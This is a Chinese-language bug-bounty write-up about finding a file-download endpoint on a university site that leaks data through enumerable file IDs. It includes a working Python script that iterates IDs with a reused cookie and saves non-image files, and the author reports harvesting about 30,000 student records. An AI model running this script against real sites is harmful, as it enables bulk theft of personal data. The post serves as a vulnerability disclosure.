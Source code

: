 ```yaml
---
title: 非典型渗透 - 某EDU资产 外部敏感信息泄漏拿下 EduSRC 证书
published: false
---
```


# [](#header-1)0、前言

这是一次对教育资产简单的渗透，仅仅是记录一下最关键的流程，其它部分不再赘述  
由于该次渗透不是进内网拿的证书，因此有记录的必要  

# [](#header-1)1、疑似通杀

资产大扫描汇总，经过一一排查发现某处比较隐蔽的url存在可疑敏感信息泄漏点  

该url响应的是一个img文件  
```url
https://xxx.edu.cn/system/_content/download.jsp?urltype=news.DownloadAttachUrl&owner=1134009718&wbfileid=712323
```

为什么这个几乎每个edu站点都会有的通用文件储存系统，在这个edu站点下我会觉得有敏感信息泄露漏洞呢？  
因为在大批量爬虫的过程中爬到该url时返回的图片就已经包含敏感信息泄露了，有十足的把握认定该网站管理员在该文件系统中不正确地储存了敏感文件  
当然，最后结果也如我所愿  

继续观察该url不难发现，该url分为两个部分：  
参数：urltype  
和另外两个参数:owner、wbfileid  

讨论第二部分，尝试横向遍历，通过向数值减小的方向遍历wbfileid参数，发现一下规律：  
  
1、当前url响应的文件时间随数值的减小而减小  

2、jpg、png、gif等图片大多都为学生合照、活动照片，于是过滤这些资产  

3、pdf、xlsx等其他各式更为重要，并且可以通过python脚本提取文件信息，分析是否有重要内容，省去人工筛查的麻烦  

# [](#header-1)2、exp利用
第一次要求时要求验证码，第二次不再要求，很明显验证识别信息放在本地，不难发现验证信息存于cookie中，正好省去python自动校验验证码带来的时间损耗  

因此，写了个python exp自动遍历，自动保存文件在同级路径下人工审查(别问为什么不用burpsuite，因为要进行过滤操作)  

```python

import xlrd
#利用这个库分析表格文件，可以匹配身份证、密码等敏感信息
import requests
import os
import time

get_header = {
	"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/111.0",
	"Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",
	"Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
    	"Cookie": [验证码校验过的Cookie String类型]
}

prev = [开始遍历的wbfileid参数 int类型]
last = [结束遍历的wbfileid参数 int类型]

URL = "https://[填写可疑系统域名]/system/_content/download.jsp?urltype=news.DownloadAttachUrl&owner=1134009718&wbfileid="

def save(filename, content, nums):
    filename2 = f'''{nums}----''' + filename
    with open(filename2,'wb') as file:
        file.write(content)

for i in range(prev, last):
    try:
        print(i)
        url = URL + str(i)
        response = None
        while True:
            try:
                response = requests.get(url = url,headers = get_header, timeout = 20)
                break
            except:
                print('error:timeout retrying')
                pass
        filename = response.headers['Content-disposition'].split('filename=')[1].split(';')[0]
        back = filename.split('.')[-1]

        print(back)
	#自动保存除jpg和png格式以外的文件
	if not filename.endswith('jpg') and not filename.endswith('JPG') and not filename.endswith('png') and not filename.endswith('PNG'):
            save(filename, response.content, i)

        time.sleep(0.1)
    except:
        print('error')
```

最后，在遍历了几个小时后，终于遍历到了一个压缩包内包含dbf文件，excel打不开，推测是数据量过大导致的  

于是用专业dbf查看器打开，果然包含近三万条学生数据，喜提中危  

![avatar](/image/2023-06-14-0.png)

本文只介绍关键内容，绕waf等操作不再赘述  
本篇文章由leeya_bug(leeyange)自创，文章属亲身经历，禁止抄袭payload  
